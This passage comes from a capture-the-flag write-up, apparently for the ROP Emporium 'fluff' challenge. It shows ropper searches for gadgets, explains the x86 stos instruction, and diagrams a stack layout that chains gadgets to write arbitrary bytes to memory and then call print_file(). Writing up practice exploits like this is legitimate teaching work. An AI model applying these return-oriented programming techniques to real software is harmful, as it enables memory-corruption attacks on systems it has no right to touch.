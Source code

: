 Looking through the binary, we are able to find an argument that nulls eax which would null out the al register.

```
pwndbg> ropper -- --search "mov ?a?"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov ?a?

[INFO] File: /root/working/fluff/fluff_64/fluff
0x0000000000400610: mov eax, 0; pop rbp; ret; 
```

So now if we use the `bextr` gadget to control rbx and null out eax (and by extension al). We have control over rbx, rcx, rdx, and al. Which is awesome, but still doesn't get us a huge amount closer to writing our string so let's hope the last gadget is usefull.


Looking at the `stos   BYTE PTR es:[rdi],al` instruction we may be in luck. Before even doing any research we can guess that it may write to memory because the first part after the instruction (the destination) is a Byte PTR to memory. In fact it's a pointer control by rdi (which we control), and the second argument is al (which we also control), so we may be in luck.


Ok with hopes high let's look over the [manual page](https://www.felixcloutier.com/x86/stos:stosb:stosw:stosd:stosq) for stos. 

> In non-64-bit and default 64-bit mode; stores a byte, word, or doubleword from the AL, AX, or EAX register (respectively) into the destination operand. The destination operand is a memory location, the address of which is read from either the ES:EDI or ES:DI register (depending on the address-size attribute of the instruction and the mode of operation). The ES segment cannot be overridden with a segment override prefix.


This seems to confirm exactly what we wanted. The instruction will store the byte in AL into the destination pointed to by rdi.


So now we have everything we need to write an arbitrary byte to any location in memory and if we do that repeatedly we can write our string. After double checking, we also see that we have a pop rdi gadget we can use to place it and then call the print_file() function. With all of that combined we can make this exploit.

```
pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/fluff/fluff_64/fluff
0x00000000004006a3: pop rdi; ret; 
```

The stack to place one character would be the following.
```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | 
8  bytes | gadget 2       | # gadget to to control rdx, rcx, rbx       
8  bytes | 0xff00         | # control bits for length and starting loc for bextr
8  bytes | rcx val-0x3ef2 | # rcx val that gets copied to rbx, must sub 0x3ef2 because of add inst
8  bytes | null_eax gadget| # set the al value to 0 for the xlat instruction
8  bytes | 0xdeadbeef     | # extra junk because pop rbp is in the null eax gadget
8  bytes | gadget 1       | # place they byte at [rbx+al] into al             
8  bytes | pop rdi gadget | # place the location to write to in rdi
8  bytes | write_loc      | #                                                               
8  bytes | Gadget 3       | # Places al into [rdi]
```